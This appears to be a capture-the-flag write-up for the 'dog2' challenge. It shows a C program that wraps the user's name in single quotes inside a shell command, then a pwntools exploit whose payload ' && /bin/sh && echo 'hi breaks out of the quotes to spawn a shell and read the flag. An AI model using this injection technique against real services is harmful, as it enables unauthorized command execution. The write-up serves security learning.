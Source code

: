 # dog Writeup

## Challenge infos

```text
I learned from my mistakes woof woof
Challenge is running at: nc pwnable.co.il 9016
```

## Executable analysis

### main
```asm
void init_buffering() {
    setvbuf(stdin, NULL, 2, 0);
    setvbuf(stdout, NULL, 2, 0);
    setvbuf(stderr, NULL, 2, 0);
    alarm(60);
}

int main() {
    char command[0x100];
    char name[0x20];
    init_buffering();
    memset(command, 0, 0x100);
    memset(name, 0, 0x20);
    puts("Hello!");
    puts("What's your name?");
    unsigned char length = read(0, name, 0x20);
    name[length-1] = '\x00';
    // now with escaping!
    sprintf(command, "echo 'Hello %s'", name);
    pid_t child = fork();
    if (child == 0) {
        execl("/bin/sh", "sh", "-c", command, NULL);
    } else {
        wait(NULL);
        puts("Thanks!");
    }
}

```
* this is the same code as in the previous dog challenge, but with a small change: the command is now constructed using `sprintf` with single quotes around the name.
* this is still vulnerable to command injection, but we need to escape the single quotes in the name variable.
* so something like `' && /bin/sh && echo 'hi` will work, because the single quotes will be escaped and the command will become `echo 'Hello ' && /bin/sh && echo 'hi'`, which will execute a shell after the echo command.

### exploit code
```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template dog2
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'dog2')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR



def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote('pwnable.co.il', 9016, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        PIE enabled
# Stripped:   No

io = start()

io.sendlineafter(b'your name?\n', b'\' && /bin/sh && echo \'hi')

io.interactive()
```
* now, when we run the exploit, we should get a shell.
```
[+] Opening connection to pwnable.co.il on port 9013: Done
[*] Switching to interactive mode
Hello
$ ls
dog2
flag
ynetd
$ cat flag
PWNIL{flag_is_here}
```